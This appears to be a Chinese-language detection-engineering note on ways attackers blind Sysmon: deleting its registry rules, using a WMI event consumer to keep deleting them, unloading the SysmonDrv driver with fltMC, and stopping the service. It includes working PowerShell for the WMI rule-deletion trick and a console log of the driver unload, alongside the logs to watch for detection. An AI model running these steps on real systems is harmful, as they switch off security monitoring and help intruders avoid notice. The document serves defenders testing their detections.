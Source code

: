 #### 删除配置项

攻击者可以删除注册表中的规则项，此时， Sysmon在发现注册表被更改后，它将自动重新加载配置。由于此时没有任何安全检测规则存在，它将暂时失去防护能力，不过失效时间，取决于配置的维护方式。如果配置由Ansible，Chef或DSC等配置管理系统管理，可能需要几秒到几分钟才能将配置更改回原始状态，如果使用GPO来管理，那么当GPO更新时，可以在90分钟内恢复原始状态。为了解决这个问题，攻击者可以使用各种Windows技术（如.Net、VBS、PE文件等）创建VMI临时性Consumer监控相应的注册表项，当发现修改操作时，则会删除修改数据或者重新设置表项内容。之所以使用临时的Consumer，是因为大多数防护解决方案会重点关注正在创建或修改的WMI永久事件。

#### 卸载SysmonDrv驱动

我们可以采取的另一个操作就是卸载SysmonDrv驱动，该驱动可以为Sysmon提供关于所有磁盘操作的信息，然后将信息写入事件日志中。如前文所述，该驱动有个唯一的altitude编号，如果我们以管理员权限运行，就可以卸载该驱动，然后Sysmon基本上就会完全处于失效状态。我们可以使用`fltmc.exe`工具来卸载驱动，如下所示，我们通过altitudde编号识别出了隐藏驱动，并成功卸载该驱动。

#### 关闭sysmon服务（管理员权限）

通过windows任务管理器，管理员权限关闭sysmon服务。

## 检测日志

sysmon日志、Windows-WMI-Activity日志，system日志

## 测试复现

### 删除配置项1

```dos
$query = "SELECT * FROM RegistryKeyChangeEvent " +
    "WHERE Hive ='HKEY_LOCAL_MACHINE' " +
    "AND KeyPath ='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'"

Register-WMIEvent -Query $query -Action {
    Write-host "Sysmon config updated, deleting config."
    Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" -Name "Rules" }
```

需要注意一点，此时Sysmon会恢复默认配置，因此会记录进程创建和进程终止事件。

### 卸载SysmonDrv驱动1

```dos
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
SysmonDrv                               2       385201         0
luafv                                   1       135000         0
PS C:\Users\Administrator> fltMC.exe unload SysmonDrv
PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
luafv                                   1       135000         0
PS C:\Users\Administrator>
```
